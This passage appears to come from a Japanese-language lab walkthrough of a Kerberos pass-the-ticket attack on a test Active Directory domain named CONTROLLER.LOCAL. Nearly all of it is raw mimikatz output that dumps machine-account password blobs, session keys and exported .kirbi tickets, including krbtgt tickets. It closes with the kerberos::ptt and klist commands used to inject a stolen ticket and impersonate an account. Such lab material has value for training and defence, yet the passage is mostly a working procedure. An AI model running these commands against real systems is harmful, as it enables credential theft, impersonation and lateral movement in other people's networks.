         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:40 AM
SID               : S-1-5-20

         * Username : controller-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:49:45 AM ; 9/4/2024 7:49:45 PM ; 9/11/2024 9:49:45 AM
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             aedc939ba9673436a0e347b4224ded63977763ef50199810f313f0260b0914a3
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e4]-0-0-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:49:45 AM ; 9/4/2024 7:49:45 PM ; 9/11/2024 9:49:45 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.local )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             ec30eaf6fed54b58906297d74daf6e72213473728b72f8f811093b73a971c987
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3e4]-2-0-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !

Authentication Id : 0 ; 33507 (00000000:000082e3)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:39 AM
SID               : S-1-5-96-0-1

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : fe 09 4c 08 0b cb e9 93 22 f0 ac d0 03 6d 7a be dd 10 c4 32 a0 f9 14 72 e7 25 44 a7 23 39 a4 68 3b 82 9e 60 ef d4 d3 5a 8a 21 90 fe 71 14 bb 16 cf 47 f1 d7 9b 3d e5 e3 da cf 67 7e 9b 36 32 75 87 57 1b fc 8e e9 4e f6 30 3d 88 24 6e 4f 15 b9 f8 26 d3 d0 83 c0 67 1c b4 59 2e d6 bd 13 07 60 5e 07 e7 ea 6e cd 77 da 97 f6 69 ea 4c 6e 75 e7 25 04 a5 d2 1d 6e 8b d2 90 4e a1 1d 63 1d 02 22 42 a9 07 0b 1b bb f1 dc 6e 14 ed ab fa e4 3b 90 41 0b 87 bb a2 4d 27 77 7a b0 b2 22 c8 de 48 64 fd 21 2e da df 68 cc e0 3a 04 67 8a 11 a2 f8 f4 b0 b0 d1 e3 51 04 f1 fe da c9 f6 85 eb f4 25 a3 52 2a 00 e8 25 d3 9a 08 31 27 86 cd b3 fe 6e 40 f6 ed 59 03 fe b1 3a 98 bf f7 d5 6c 74 3e de 5d fb 15 f4 08 c9 2b fd 0f c7 e7 6a 79 38 2c 93 4b

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 33477 (00000000:000082c5)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:39 AM
SID               : S-1-5-96-0-0

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : fe 09 4c 08 0b cb e9 93 22 f0 ac d0 03 6d 7a be dd 10 c4 32 a0 f9 14 72 e7 25 44 a7 23 39 a4 68 3b 82 9e 60 ef d4 d3 5a 8a 21 90 fe 71 14 bb 16 cf 47 f1 d7 9b 3d e5 e3 da cf 67 7e 9b 36 32 75 87 57 1b fc 8e e9 4e f6 30 3d 88 24 6e 4f 15 b9 f8 26 d3 d0 83 c0 67 1c b4 59 2e d6 bd 13 07 60 5e 07 e7 ea 6e cd 77 da 97 f6 69 ea 4c 6e 75 e7 25 04 a5 d2 1d 6e 8b d2 90 4e a1 1d 63 1d 02 22 42 a9 07 0b 1b bb f1 dc 6e 14 ed ab fa e4 3b 90 41 0b 87 bb a2 4d 27 77 7a b0 b2 22 c8 de 48 64 fd 21 2e da df 68 cc e0 3a 04 67 8a 11 a2 f8 f4 b0 b0 d1 e3 51 04 f1 fe da c9 f6 85 eb f4 25 a3 52 2a 00 e8 25 d3 9a 08 31 27 86 cd b3 fe 6e 40 f6 ed 59 03 fe b1 3a 98 bf f7 d5 6c 74 3e de 5d fb 15 f4 08 c9 2b fd 0f c7 e7 6a 79 38 2c 93 4b

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 33270 (00000000:000081f6)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:39 AM
SID               : S-1-5-96-0-0

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 1959035 (00000000:001de47b)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:34:49 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:34:49 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : GC ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             d44c53c099a7da05e2559e7aded84a2628000efe187658c4292d91c1c0536922
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;1de47b]-1-0-40a50000-CONTROLLER-1$@GC-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 1000350 (00000000:000f439e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/4/2024 9:31:14 AM
SID               : S-1-5-90-0-2

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 996824 (00000000:000f35d8)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/4/2024 9:31:14 AM
SID               : S-1-5-90-0-2

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 993527 (00000000:000f28f7)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:31:13 AM
SID               : S-1-5-96-0-2

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 993507 (00000000:000f28e3)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:31:13 AM
SID               : S-1-5-96-0-2

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 437025 (00000000:0006ab21)
Session           : Network from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:25:00 AM
SID               : S-1-5-18

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:26 AM ; 9/4/2024 7:20:18 PM ;
           Service Name (02) : LDAP ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             d5d66f97b23f98c1ed5a3bc6c3279d05b1f724c3828730a1fc4d4555580696b3
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;6ab21]-1-0-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi !

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:43 AM
SID               : S-1-5-19

         * Username : (null)
         * Domain   : (null)
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 60837 (00000000:0000eda5)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:42 AM
SID               : S-1-5-90-0-1

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : fe 09 4c 08 0b cb e9 93 22 f0 ac d0 03 6d 7a be dd 10 c4 32 a0 f9 14 72 e7 25 44 a7 23 39 a4 68 3b 82 9e 60 ef d4 d3 5a 8a 21 90 fe 71 14 bb 16 cf 47 f1 d7 9b 3d e5 e3 da cf 67 7e 9b 36 32 75 87 57 1b fc 8e e9 4e f6 30 3d 88 24 6e 4f 15 b9 f8 26 d3 d0 83 c0 67 1c b4 59 2e d6 bd 13 07 60 5e 07 e7 ea 6e cd 77 da 97 f6 69 ea 4c 6e 75 e7 25 04 a5 d2 1d 6e 8b d2 90 4e a1 1d 63 1d 02 22 42 a9 07 0b 1b bb f1 dc 6e 14 ed ab fa e4 3b 90 41 0b 87 bb a2 4d 27 77 7a b0 b2 22 c8 de 48 64 fd 21 2e da df 68 cc e0 3a 04 67 8a 11 a2 f8 f4 b0 b0 d1 e3 51 04 f1 fe da c9 f6 85 eb f4 25 a3 52 2a 00 e8 25 d3 9a 08 31 27 86 cd b3 fe 6e 40 f6 ed 59 03 fe b1 3a 98 bf f7 d5 6c 74 3e de 5d fb 15 f4 08 c9 2b fd 0f c7 e7 6a 79 38 2c 93 4b

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 33470 (00000000:000082be)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:39 AM
SID               : S-1-5-96-0-1

         * Username : CONTROLLER-1$
         * Domain   : CONTROLLER.local
         * Password : 8d 10 11 9d bf 6c c7 ee c5 0b 34 19 53 f8 20 16 65 b9 f8 f2 e7 a3 5e 6f 7f a3 3a c6 95 9b af d4 c2 8d ae fa e5 64 11 f3 02 4a 58 85 f9 18 ea bc d8 e5 fb 0d cb e3 11 d4 76 42 ab 02 e2 fb f4 20 4c 68 fd 7e 09 cd 43 4b 38 2b 09 1d 3b 0a b4 04 e1 bc a3 d0 6e 57 24 2c 9b e9 0c f5 81 68 99 89 07 34 04 90 6b d4 93 de d8 74 cb 72 78 3e 5a e1 c6 86 b2 99 54 29 33 e9 85 16 24 8d dd 1f 53 c7 c5 4b 3b 1d d1 ed a5 c1 80 02 82 67 d9 ab 44 d7 53 8f 07 e2 36 48 85 f5 ba 4b e5 e7 a9 5e a0 3a 2f 5b 0a 58 30 ae 6a 7d 9e 20 1c cc da 6f b9 2b 75 10 e7 68 80 0e 5d ba 4c 9f fa 52 1a 12 b4 58 db 02 57 d5 f8 39 30 6e 9b ea 48 0f 20 39 b5 17 19 d6 b9 51 a5 e1 ff d6 a6 f6 7a 24 31 e9 0e 5f 84 83 1a 29 71 cb cb 06 e3 9e ea ff a8 f2 58 03

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CONTROLLER-1$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 9/4/2024 9:19:28 AM
SID               : S-1-5-18

         * Username : controller-1$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:51:14 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : HTTP ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : HTTP ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             949ba5310489590ce084c170e69be87267224e5813ddc0052f2d56406ec32ec7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-0-40a50000-CONTROLLER-1$@HTTP-CONTROLLER-1.CONTROLLER.local.kirbi !
         [00000001]
           Start/End/MaxRenew: 9/4/2024 9:34:49 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : GC ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : GC ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.local )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             d44c53c099a7da05e2559e7aded84a2628000efe187658c4292d91c1c0536922
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-1-40a50000-CONTROLLER-1$@GC-CONTROLLER-1.CONTROLLER.local.kirbi !
         [00000002]
           Start/End/MaxRenew: 9/4/2024 9:29:31 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : cifs ; CONTROLLER-1 ; @ CONTROLLER.LOCAL
           Target Name  (02) : cifs ; CONTROLLER-1 ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             2fc74320ed88bec89e056e6ec577f6827b20b8acce17c05a3e00575d730e38b9
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-2-40a50000-CONTROLLER-1$@cifs-CONTROLLER-1.kirbi !
         [00000003]
           Start/End/MaxRenew: 9/4/2024 9:20:46 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Target Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0920640a9370ba94db520d81272810c1e44b2cd38d4734b290f964d77289e702
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-3-40a50000.kirbi !
         [00000004]
           Start/End/MaxRenew: 9/4/2024 9:20:46 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : cifs ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : cifs ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.local )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             9787288f31be29cedbe35d6a4963ef6885984217286ef6ff2a3508b239e4fdad
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-4-40a50000-CONTROLLER-1$@cifs-CONTROLLER-1.CONTROLLER.local.kirbi !
         [00000005]
           Start/End/MaxRenew: 9/4/2024 9:20:26 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : LDAP ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : LDAP ; CONTROLLER-1.CONTROLLER.local ; CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             d5d66f97b23f98c1ed5a3bc6c3279d05b1f724c3828730a1fc4d4555580696b3
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-5-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.CONTROLLER.local.kirbi !
         [00000006]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Target Name  (02) : ldap ; CONTROLLER-1.CONTROLLER.local ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             17b6d23468d8b3424d654d82a058b9dc91879c804fb23fe2eeac1f0e52a3c2e1
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-6-40a50000-CONTROLLER-1$@ldap-CONTROLLER-1.CONTROLLER.local.kirbi !
         [00000007]
           Start/End/MaxRenew: 9/4/2024 9:20:18 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : LDAP ; CONTROLLER-1 ; @ CONTROLLER.LOCAL
           Target Name  (02) : LDAP ; CONTROLLER-1 ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             7de46724c4513e5ed4b964ffe5b54005862fc5d84cc8d1da30d08d3a3d5f5d6f
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;3e7]-0-7-40a50000-CONTROLLER-1$@LDAP-CONTROLLER-1.kirbi !

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/4/2024 9:20:19 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (--) : @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             0b4e17f0e5335ec93696502e49c84b3df15a099ecf7aea0dec3a3d49067a671f
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3e7]-2-0-60a10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !
         [00000001]
           Start/End/MaxRenew: 9/4/2024 9:20:18 AM ; 9/4/2024 7:20:18 PM ; 9/11/2024 9:20:18 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Client Name  (01) : CONTROLLER-1$ ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             c04f0f777df88304cea369fc106fcaf7205e723ff5e9e62a91eee6f07ecc0161
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi !

mimikatz #
```

取得したチケットを使ってキャッシュしなりすます

```
kerberos::ptt <ticket>
```

キャッシュされたチケットをリストで出す

```
klist
```

### Pass-the-ticketの実行

チケットの一覧を取得する

```
mimikatz # sekurlsa::tickets /export

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 693431 (00000000:000a94b7)
Session           : Network from 0
User Name         : CONTROLLER-1$
